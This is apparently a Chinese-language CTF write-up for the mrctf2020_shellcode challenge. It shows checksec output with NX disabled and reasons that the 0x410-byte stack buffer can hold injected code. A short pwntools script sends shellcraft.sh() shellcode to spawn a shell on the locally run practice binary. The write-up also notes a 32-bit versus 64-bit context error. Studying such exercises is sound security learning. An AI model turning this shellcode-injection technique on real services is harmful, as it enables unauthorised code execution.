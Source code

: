 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20240101170437978](../assets/img/old_imgs/image-20240101170437978.png)

- `pwntools`中`shellcode`使用与配置

```shell
bamuwe@qianenzhao:~$ checksec mrctf2020_shellcode
[*] '/home/bamuwe/mrctf2020_shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
```

> 没有开启`NX`

1. 没有开启`NX`考虑往栈上直接写入代码
2. `ida`和动态调试都发现`buf`栈空间为`0x410`足够写入`shellcode`

```python
from pwn import *
context(arch='amd64',log_level='debug')
#io = gdb.debug('./mrctf2020_shellcode','break main')
io = process('./mrctf2020_shellcode')
payload = asm(shellcraft.sh())
io.sendlineafter(b'Show me your magic!\n',payload)
io.interactive()
```

一开始没加`context`那一行报了`EOF`错误,是因为`shellcraft.sh()`默认生成的是`32`位`shellcode`,我们需要给他配置一下环境.

> 参考:[能坑我，但没有完全坑我——mrctf2020_shellcode - Haokunnnnnnnna - 博客园 (cnblogs.com)](https://www.cnblogs.com/p201921420037/p/14646604.html)


